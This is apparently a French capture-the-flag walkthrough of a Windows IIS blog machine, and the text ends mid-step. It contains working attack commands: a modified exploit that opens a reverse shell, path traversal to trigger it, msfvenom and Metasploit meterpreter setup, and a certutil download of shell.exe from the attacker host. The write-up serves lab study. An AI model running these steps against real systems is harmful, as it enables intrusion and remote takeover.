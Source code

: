``` nmap -sS -sV -Pn [IP_MACHINE] ```
## Who is the webserver running as?

Télécharger l'exploit 

Modifier la ligne 51 pour y rajouter notre IP 
``` using(System.Net.Sockets.TcpClient client = new System.Net.Sockets.TcpClient("[IP_VPN]", 4445)) { ```

Changer l'extension par ``` .acsx ```

Lancer un listener sur le port 4445
``` nc -lvnp 4445 ```

Aller sur la page pour éditer le post déjà présent

Ajouter l'exploit  au file manager 

NE PAS FERMER LA FENÊTRE 

Une fois que l'exploit est chargé, se rendre sur la page suivante : 

[IP_MACHINE]/?theme=../../App_Data/files

Une erreur devraît apparaitre et un shell devrait être lancé sur le listener. 

Lancer la commande : 

``` 
whoami 

c:\windows\system32\inetsrv>whoami                                                                                  

iis apppool\blog 

```
**iis apppool\blog**

NE PAS QUITTER LE TERMINAL 

# Task 4 

## What is the OS version of this windows machine?
Se rendre sur le dossier C:\Windows\Temp
``` cd C:\Windows\Temp ```

Charger un revershell qui sera executé sur la machine distante 

``` msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.18.94.166 LPORT=4445 -f exe -o shell.exe ```

Lancer un serveur python
``` python3 -m http.server ```

Lancer Mestasploit et générer un méterpreter 

``` 
msfconsole 	 
use exploit/multi/handling 
set lhost 10.18.94.166
set lport 4445
set payload windows/meterpreter/reverse_tcp 
run 
```
Télécharger le fichier sur la machine cible 

``` certutil.exe -urlcache -f http://10.18.94.166:8000/shell.exe shell.exe  ```

Une fois le fichier télécharger, il faut l'executer :
```